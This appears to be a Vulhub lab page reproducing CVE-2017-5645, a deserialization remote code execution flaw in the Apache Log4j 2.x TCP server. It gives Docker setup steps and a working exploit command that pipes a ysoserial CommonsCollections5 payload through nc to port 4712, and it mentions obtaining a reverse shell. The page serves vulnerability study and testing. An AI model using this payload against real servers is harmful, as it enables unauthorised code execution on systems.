

Apache Log4j TCP Server Deserialization Remote Code Execution (CVE-2017-5645)¶
Apache Log4j is a logging library for Java that supports starting remote logging servers. A security vulnerability exists in versions 2.x before 2.8.2 of Apache Log4j TCP Server. Attackers can exploit this vulnerability to execute arbitrary code.
References:
Environment Setup¶
Execute the following command to start a Log4j 2.8.1 TCP server:
docker compose up -d
After the environment starts, a TCP server will be opened on port 4712.
Note: Besides using Vulhub's docker image to set up the environment, we can directly start this TCP server from the command line after downloading the log4j jar files: java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer, without needing to use Vulhub or write code.
Vulnerability Reproduction¶
We use ysoserial to generate a payload, then send it directly to the your-ip:4712 port.
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
Then execute docker compose exec log4j bash to enter the container, and you can see that /tmp/success has been successfully created:

Execute a reverse shell command to successfully get a shell:
